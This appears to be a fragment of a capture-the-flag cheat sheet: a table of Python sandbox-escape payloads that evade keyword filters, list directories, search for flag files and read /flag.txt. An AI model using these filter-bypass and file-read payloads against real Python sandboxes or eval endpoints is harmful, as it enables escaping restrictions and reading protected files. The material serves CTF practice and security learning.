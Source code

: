 </div>

## Payloads <a name='12'></a>
|Description|Payload|
|-|-|
|Imports|`__import__(...).function_call()`|
|List Directories|`__import__('o'+'s').listdir('.')`|
|String Bypass|`''.join([chr(i) for i in [...]])`|
|Read Files|`open(''.join([chr(i) for i in [...]])).read()`|
|File Search|`[__import__('o'+'s').chdir(chr(47))]+__import__('glob').glob('*flag*', recursive=True)`|
|Flag|`open(''.join([chr(i) for i in [47, 102, 108, 97, 103, 46, 116, 120, 116]])).read()`|
